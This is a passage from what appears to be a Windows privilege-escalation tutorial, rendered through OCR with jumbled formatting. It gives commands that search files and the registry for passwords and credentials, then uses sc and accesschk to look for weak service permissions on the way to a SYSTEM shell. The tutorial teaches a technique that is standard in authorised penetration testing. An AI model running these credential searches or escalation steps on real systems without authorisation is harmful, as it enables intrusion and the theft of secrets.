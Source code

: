 specify as many keywords as you wish.**C:\Windows\system32> dir /s *pass* == *cred* == *vnc* == *.config***# Search certain file types for a keyword, this can generate a lot of output.**C:\Windows\system32> findstr /si password *.xml *.ini *.txt**# Similarly the two commands below can be used to grep the registry for keywords, in this case "password".**C:\Windows\system32> reg query HKLM /f password /t REG_SZ /sC:\Windows\system32> reg query HKCU /f password /t REG_SZ /s

## Δt for t7 to t10 - Roll Up Your Sleeves

Hopefully by now we already have a SYSTEM shell but if we don't there are still a few avenues of attack left to peruse. In this final part we will look at Windows services and file/folder permissions. Our goal here is to use weak permissions to elevate our session privileges.

We will be checking a lot of access rights so we should grab a copy of accesschk.exe which is a tool from Microsoft's Sysinternals Suite. Microsoft Sysinternals contains a lot of excellent tools, it's a shame that Microsoft hasn't added them to the standard Windows build. You can download the suite from Microsoft technet [here](https://technet.microsoft.com/en-us/sysinternals/bb842062.aspx).

We will start off with Windows services as there are some quick wins to be found there. Generally modern operating systems won't contain vulnerable services. Vulnerable, in this case, means that we can reconfigure the service parameters. Windows services are kind of like application shortcut's, have a look at the example below.

**# We can use sc to query, configure and manage windows services.**C:\Windows\system32> sc qc Spooler[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Spooler
TYPE : 110 WIN32_OWN_PROCESS (interactive)
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Windows\System32\spoolsv.exe
LOAD_ORDER_GROUP : SpoolerGroup
TAG : 0
DISPLAY_NAME : Print Spooler
DEPENDENCIES : RPCSS
: http
SERVICE_START_NAME : LocalSystem

We can check the required privilege level for each service using accesschk.

**# We can see the permissions that each user level has, you can also use "accesschk.exe -ucqv *" to list

all services.**C:\> accesschk.exe -ucqv SpoolerSpooler
R NT AUTHORITY\Authenticated Users
SERVICE_QUERY_STATUS
SERVICE_QUERY_CONFIG
SERVICE_INTERROGATE
SERVICE_ENUMERATE_DEPENDENTS
SERVICE_USER_DEFINED_CONTROL
READ_CONTROL
R BUILTIN\Power Users
SERVICE_QUERY_STATUS
SERVICE_QUERY_CONFIG
SERVICE_INTERROGATE
SERVICE_ENUMERATE_DEPENDENTS
SERVICE_START
SERVICE_USER_DEFINED_CONTROL
READ_CONTROL
RW BUILTIN\Administrators
SERVICE_ALL_ACCESS
RW NT AUTHORITY\SYSTEM
SERVICE_ALL_ACCESS
